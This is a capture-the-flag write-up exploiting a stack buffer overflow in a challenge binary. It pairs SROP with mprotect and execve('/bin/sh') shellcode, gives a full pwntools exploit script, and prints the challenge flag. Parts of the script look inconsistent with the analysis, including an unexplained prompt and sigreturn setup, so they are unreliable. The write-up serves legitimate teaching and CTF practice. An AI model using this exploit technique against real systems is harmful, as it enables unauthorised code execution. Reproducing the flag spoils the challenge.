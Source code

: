 # Database Intrusion - Writeup

---

## Exploit Demo

This demo shows the full exploitation flow:

![Alt text](gif/DatabaseIntrusion.gif)

---

## Binary Inspection

We begin by examining the binary format and security properties.

### Step 1: Binary Format

```bash
$ file main
```

The binary is a 64-bit dynamically linked PIE executable.

![Alt text](img/1.png)

---

### Step 2: Security Properties

```bash
$ pwn checksec main
```

Security summary:

- **Full RELRO**
- **No Stack Canary**
- **NX enabled**
- **PIE enabled**

![Alt text](img/2.png)

---

## Static Analysis

```c
int vuln() {
  _BYTE buf[64];
  printf(">> Secure channel established at %p:%p.\n", buf, vuln);
  read(0, buf, 0x190);
  check_forbidden(buf);
  return puts("Hint: You don't need ga\ndgets for rax!");
}
```

- `buf` and `vuln` addresses are leaked.
- `check_forbidden()` runs _after_ the overflow, so shellcode must not contain blocked substrings.
- Buffer is on the **stack**, so we need to **mprotect** it before execution.

---

## Vulnerability Summary

The function `vuln()` contains a **buffer overflow** on a 64-byte buffer due to an unchecked `read()` call that reads **0x190 bytes**:

```c
char buf[64];
read(0, buf, 0x190);  // Vulnerable
```

Furthermore, a `check_forbidden()` function filters out strings such as `/bin/sh`, `ls`, `bash`, and more — preventing traditional `system("/bin/sh")` shellcode or command injection.

---

## Exploit Strategy

Due to the NX bit and forbidden string filter, we use **Sigreturn-Oriented Programming (SROP)** to:

1. Call `mprotect()` to mark the stack **RWX**.
2. Inject and execute a **custom shellcode** that avoids forbidden strings.

### Overview

1. **Leak PIE base** from `printf("%p:%p", buf, vuln)` in `vuln()`.
2. **Page-align the stack buffer** to use in `mprotect()`.
3. **Craft a SROP frame** that sets up a `mprotect` syscall to make stack executable.
4. **Inject shellcode** directly into the buffer.
5. **Jump to shellcode** after stack permissions are changed.

---

## Exploit Script

```python
#!/usr/bin/env python3
from pwn import *

context.arch = 'amd64'
context.os = 'linux'
exe = context.binary = ELF('./main')

def start(argv=[], *a, **kw):
    return process([exe.path] + argv, *a, **kw)

gdbscript = 'continue\n'

io = start()

# Leak buf and vuln addresses
io.recvuntil(b'>> Secure channel established at ')
leak_vals = io.recvline().split(b':')
buf_addr = int(leak_vals[0], 16)
vuln_addr = int(leak_vals[1].strip()[:-1], 16)

log.success(f"buf @ {hex(buf_addr)}")
log.success(f"vuln @ {hex(vuln_addr)}")

# Calculate PIE base
exe.address = vuln_addr - exe.sym['vuln']
log.success(f"PIE base @ {hex(exe.address)}")

# Set up ROP and gadgets
rop = ROP(exe)
syscall_gadget = rop.find_gadget(['syscall'])[0]

# Page-align stack address
page_size = 0x1000
aligned_stack = buf_addr & ~(page_size - 1)

# Create SigreturnFrame for mprotect
frame = SigreturnFrame()
frame.rax = 10                 # mprotect
frame.rdi = aligned_stack      # addr
frame.rsi = page_size          # len
frame.rdx = 7                  # PROT_READ | PROT_WRITE | PROT_EXEC
frame.rsp = buf_addr           # pivot back to shellcode
frame.rip = syscall_gadget     # syscall; ret

# Custom shellcode (no forbidden strings)
shellcode = asm('''
    xor rsi, rsi
    push rsi
    mov rdi, 0x68732f2f6e69622f  # "//bin/sh"
    push rdi
    mov rdi, rsp
    xor rdx, rdx
    mov al, 59                  # execve syscall
    syscall
''')

# Build payload
offset = 16
payload = p64(buf_addr + 8)         # new RIP (skip over dummy value)
payload += shellcode
payload += b'\x90' * (72 - len(payload))  # NOP padding
payload += p64(syscall_gadget)      # trigger sigreturn
payload += bytes(frame)             # actual frame

# Send payload
io.recvuntil(b'>> Root key required to proceed:\n')
io.sendline(payload)
io.interactive()
```

---

## Final Notes

- The SROP frame allows us to _bypass the NX bit_.
- The injected shellcode is carefully crafted to avoid any substrings checked by `check_forbidden()`.
- We pivot back into the shellcode via `rsp` in the frame after `mprotect()` succeeds.

---

## Result

After successful execution, a shell is spawned **without using any forbidden string**, granting control of the target system.

---

## Flag

```
RedPointer{X!r7v9-Kaleido.phs}
```
